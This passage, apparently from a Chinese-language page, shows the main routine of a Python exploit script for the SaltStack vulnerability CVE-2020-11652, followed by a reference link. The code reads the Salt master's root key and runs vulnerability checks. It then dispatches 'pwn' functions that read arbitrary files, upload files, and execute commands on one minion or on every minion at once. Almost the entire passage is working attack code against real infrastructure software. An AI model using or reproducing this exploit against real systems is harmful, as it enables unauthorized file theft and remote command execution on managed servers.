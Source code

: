 ```python
        # and abuse CVE-2020-11652 to read it.
        top_secret_file_path = '/tmp/salt_cve_teta'
        with salt.utils.fopen(top_secret_file_path, 'w') as fd:
            fd.write("top secret")

        # Again, this assumes we're running this check on the master itself
        with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
            root_key = keyfd.read()

        check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
        check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
        check_CVE_2020_11652_write1(debug, channel, root_key)
        check_CVE_2020_11652_write2(debug, channel, root_key)
        os.remove(top_secret_file_path)
        sys.exit(0)

    if args.read_file:
        pwn_read_file(channel, root_key, args.read_file, args.master_ip)

    if args.upload_src:
        if os.path.isabs(args.upload_dest):
            print('[-] Destination path must be relative; aborting')
            sys.exit(1)
        pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


    jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

    if args.exec:
        pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

    if args.exec_all:
        print("[!] Lester, is this what you want? Hit ^C to abort.")
        time.sleep(2)
        pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


if __name__ == '__main__':
    main()
```

## 参考文章

https://www.cdxy.me/?p=822